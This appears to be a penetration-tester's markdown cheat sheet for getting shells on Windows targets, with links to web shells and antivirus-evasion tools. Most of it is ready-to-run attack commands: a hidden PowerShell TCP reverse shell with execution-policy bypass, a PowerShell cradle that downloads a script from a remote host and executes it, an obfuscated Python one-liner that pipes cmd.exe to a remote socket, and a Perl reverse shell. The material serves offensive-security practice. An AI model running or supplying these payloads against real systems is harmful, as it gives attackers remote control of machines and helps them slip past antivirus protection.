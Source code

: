 # Windows Shells 
Remember to check for AV before uploading common payloads! 
- [ ] Can you exec .NET commands or Powershell as well? 
- [ ] Web Shells 
- [ ] Reverse Shell Commands 
- [ ] Antivirus evasion 

## Test Connection with ping  
    tcpdump -i [interface] icmp   
    ping 127.0.0.1 
    powershell -c "Test-Connection 127.0.0.1"

## Web Shells 
[White winter wolf Linux and Windows web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) 

[Nishang Invoke-Powershell Script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) 
[ConPty shell](https://github.com/antonioCoco/ConPtyShell)  

## Reverse Shell Commands 
### Netcat
upload static binary 



### Powershell 
[Powershell reverse shell scripts](https://github.com/ivan-sincek/powershell-reverse-tcp)  

    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
    
    powershell -exec bypass -c "iwr('http://192.168.0.48:8000/Invoke-PowershellTcp.ps1')|iex" 

### Python  

    C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 53)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
    
    
### Perl 

    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:53");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'  
    
    
## Antivirus Evasion  
[PHP payload encoder](https://www.gaijin.at/en/tools/php-obfuscator#result) 

[Example - obfuscating payload to get a reverse shell on Windows](https://medium.com/@defsecone/evading-windows-defender-using-obfuscation-techniques-2494b2924807) 


## Resources  
https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet

